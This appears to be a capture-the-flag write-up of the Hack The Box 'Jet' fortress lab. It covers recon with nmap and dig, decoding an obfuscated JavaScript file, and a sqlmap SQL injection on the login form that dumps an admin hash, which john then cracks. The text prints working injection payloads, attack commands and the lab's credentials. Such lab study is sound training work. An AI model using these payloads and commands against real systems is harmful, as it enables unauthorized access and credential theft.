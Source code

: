 y# Jet
#HTB #Fortress 
IP : 10.13.37.10

## Recon 

Fire up nmap, to do a port scan

```bash
nmap -sV -sC -p- 10.13.37.10
22/tcp   open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0) | ssh-hostkey:            
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)   
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA) 
|\_  256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519) 
53/tcp   open  domain   ISC BIND 9.10.3-P4 (Ubuntu Linux)  
| dns-nsid:               
|\_  bind.version: 9.10.3-P4-Ubuntu                                                           
80/tcp   open  http     nginx 1.10.3 (Ubuntu)                                      
|\_http-server-header: nginx/1.10.3 (Ubuntu)                                                                 
|\_http-title: Welcome to nginx on Debian!                                                               
5555/tcp open  freeciv?
7777/tcp open  cbt?   
| fingerprint-strings: 
|   Arucer, DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, Socks5, X11Probe:                     
|     Create a memo 
|     Show memo      
|     Delete memo                                
|     Cant you read mate?                                              
|   NULL:                                                                         
|     --==\[\[ Spiritual Memo \]\]==-- 
|     Create a memo 
|     Show memo 
    Delete memo
8000/tcp open  tcpwrapped   
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
9201/tcp open  http     BaseHTTPServer 0.3 (Python 2.7.12)   
| \_http-title: Site doesnt have a title (application/json) 
``` 


Head over to the http site and get the first flag.
![[Pasted image 20210524084857.png]]

The box is running a DNS lets try query it for domain names.

dig \@{dns ip} -x {ip lookup}
	
	
```bash
dig @10.13.37.10 -x 10.13.37.10  
 <<>> DiG 9.16.15-Debian <<>> @10.13.37.10 -x 10.13.37.10  
 (1 server found)  
 global options: +cmd  
 Got answer:  
->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 45014  
flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1  
 WARNING: recursion requested but not available  

 OPT PSEUDOSECTION:  
EDNS: version: 0, flags:; udp: 4096  
 QUESTION SECTION:  
10.37.13.10.in-addr.arpa.      IN      PTR  

 AUTHORITY SECTION:  
37.13.10.in-addr.arpa.  604800  IN      SOA     www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800  

 Query time: 140 msec  
SERVER: 10.13.37.10#53(10.13.37.10)  
 WHEN: mán maí 24 08:51:24 CEST 2021  
 MSG SIZE  rcvd: 109
```
	
	
And we get a domain name *securewebinc.jet* and it to the host file.

```bash
echo "10.13.37.10 www.securewebinc.jet securewebinc.jet" >> /etc/hosts
```

Head over to *www.securewebinc.jet*

![[Pasted image 20210524085916.png]]
Scroll to the bottom of the site and get the second flag.
Time to look at some source code.
We learn of two customs script *secure.js* and *template.js*

*secure.js* is a obfuscated javascript, let deopfuscate it. 
```js
eval(String.fromCharCode(102,117,110,99,116,105,111,110,32,103,101,116,83,116,97,116,115,40,41,10,123,10,32,32,32,32,36,46,97,106,97,120,40,123,117,114,108,58,32,34,47,100,105,114,98,95,115,97,102,101,95,100,105,114,95,114,102,57,69,109,99,69,73,120,47,97,100,109,105,110,47,115,116,97,116,115,46,112,104,112,34,44,10,10,32,32,32,32,32,32,32,32,115,117,99,99,101,115,115,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,36,40,39,35,97,116,116,97,99,107,115,39,41,46,104,116,109,108,40,114,101,115,117,108,116,41,10,32,32,32,32,125,44,10,32,32,32,32,101,114,114,111,114,58,32,102,117,110,99,116,105,111,110,40,114,101,115,117,108,116,41,123,10,32,32,32,32,32,32,32,32,32,99,111,110,115,111,108,101,46,108,111,103,40,114,101,115,117,108,116,41,59,10,32,32,32,32,125,125,41,59,10,125,10,103,101,116,83,116,97,116,115,40,41,59,10,115,101,116,73,110,116,101,114,118,97,108,40,102,117,110,99,116,105,111,110,40,41,123,32,103,101,116,83,116,97,116,115,40,41,59,32,125,44,32,49,48,48,48,48,41,59));
```

Go to jsnice.org put in the code and nicify it. and wee get this.

```js
'use strict';
/**
 * @return {undefined}
 */
function getStats() {
  $.ajax({
    url : "/dirb_safe_dir_rf9EmcEIx/admin/stats.php",
    success : function(result) {
      $("#attacks").html(result);
    },
    error : function(result) {
      console.log(result);
    }
  });
}
getStats();
setInterval(function() {
  getStats();
}, 10000);

```

We get a new url to follow. lets head there now
*/dirb_safe_dir_rf9EmcEIx/admin/stats.php"*
return to us with a number. 
*1621841262*

Lets remove stats.php
*/dirb_safe_dir_rf9EmcEIx/admin/*

![[Pasted image 20210524091658.png]]

And we find a flag in the source code.

Fire up burp suite so we have the options to capture the POST request to the server, when we try to authenticate. 

![[Pasted image 20210524100127.png]]

Save the request to at file so we can use it in sqlmap

sqlmap -r request_file  random http agent, test level, risk of the test, enumerate DBMS databases. 

```bash
sqlmap -r dologin.txt --random-agent --level=5 --risk=3 --dbs
...snip...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? \[y/N\] n  
sqlmap identified the following injection point(s) with a total of 1717 HTTP(s) requests:  
\---  
Parameter: username (POST)  
   Type: error-based  
   Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)  
   Payload: username=admin' AND (SELECT 7422 FROM(SELECT COUNT(\*),CONCAT(0x717a787171,(SELECT (ELT(7422=7422,1))),0x7171786a71,FLOOR(RAND(0)\*2))x FROM INFORMATION\_SCHEMA.PLUGINS GROUP BY x)a)-- RRPr&password=\`1=1  
  
   Type: time-based blind  
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)  
   Payload: username=admin' AND (SELECT 9644 FROM (SELECT(SLEEP(5)))wTkq)-- gvdk&password=\`1=1  
\---  
\[19:04:16\] \[INFO\] the back-end DBMS is MySQL  
\[19:04:16\] \[CRITICAL\] unable to connect to the target URL. sqlmap is going to retry the request(s)  
web server operating system: Linux Ubuntu  
web application technology: Nginx 1.10.3  
back-end DBMS: MySQL >= 5.0  
\[19:04:18\] \[INFO\] fetching columns for table 'users' in database 'jetadmin'  
\[19:04:18\] \[INFO\] retrieved: 'id'  
\[19:04:18\] \[INFO\] retrieved: 'int(11)'  
\[19:04:19\] \[INFO\] retrieved: 'username'  
\[19:04:19\] \[INFO\] retrieved: 'varchar(50)'  
\[19:04:19\] \[INFO\] retrieved: 'password'  
\[19:04:19\] \[INFO\] retrieved: 'varchar(191)'  
\[19:04:19\] \[INFO\] fetching entries for table 'users' in database 'jetadmin'  
\[19:04:19\] \[INFO\] retrieved: '1'  
\[19:04:20\] \[INFO\] retrieved: '97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084'  
\[19:04:20\] \[INFO\] retrieved: 'admin'  
\[19:04:20\] \[INFO\] recognized possible password hashes in column 'password'
```

What do we learn? We learn there is a database called jetadmin that have a table with the name of users. Lets try and dump the data of user table, we will run sqlmap again but add the database of jetadmin and users table as parameters 

```bash
sqlmap -r dologin.txt --random-agent --level=5 --risk=3 -D jetadmin -T users --dump

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 7422 FROM(SELECT COUNT(*),CONCAT(0x717a787171,(SELECT (ELT(7422=7422,1))),0x7171786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- RRPr&password=`1=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9644 FROM (SELECT(SLEEP(5)))wTkq)-- gvdk&password=`1=1
---
[19:36:50] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0
[19:36:50] [INFO] fetching columns for table 'users' in database 'jetadmin'
[19:36:50] [INFO] resumed: 'id'
[19:36:50] [INFO] resumed: 'int(11)'
[19:36:50] [INFO] resumed: 'username'
[19:36:50] [INFO] resumed: 'varchar(50)'
[19:36:50] [INFO] resumed: 'password'
[19:36:50] [INFO] resumed: 'varchar(191)'
[19:36:50] [INFO] fetching entries for table 'users' in database 'jetadmin'
[19:37:20] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[19:37:20] [INFO] retrieved: '1'
[19:37:21] [INFO] retrieved: '97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084'
[19:37:21] [INFO] retrieved: 'admin'
[19:37:21] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: jetadmin
Table: users
[1 entry]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+

[19:37:43] [INFO] table 'jetadmin.users' dumped to CSV file '/home/avhn/.local/share/sqlmap/output/www.securewebinc.jet/dump/jetadmin/users.csv'
[19:37:43] [INFO] fetched data logged to text files under '/home/avhn/.local/share/sqlmap/output/www.securewebinc.jet'

[*] ending @ 19:37:43 /2021-05-24/

```

We got the user admin and the password hash. Lets crack it using  john. 

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash  --format=Raw-SHA256
Using default input encoding: UTF-8  
Loaded 1 password hash (Raw-SHA256 \[SHA256 256/256 AVX2 8x\])  
Warning: poor OpenMP scalability for this hash type, consider --fork=8  
Will run 8 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
Hackthesystem200 (?)  
1g 0:00:00:01 DONE (2021-05-24 19:48) 0.7751g/s 8636Kp/s 8636Kc/s 8636KC/s Josiah21..Galgenwaard  
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably  
Session completed
```
Show the password. 
```bash
john hash --show  --format=Raw-SHA256   
?:Hackthesystem200
```

Creds : admin:Hackthesystem200

Login and get the next flag. 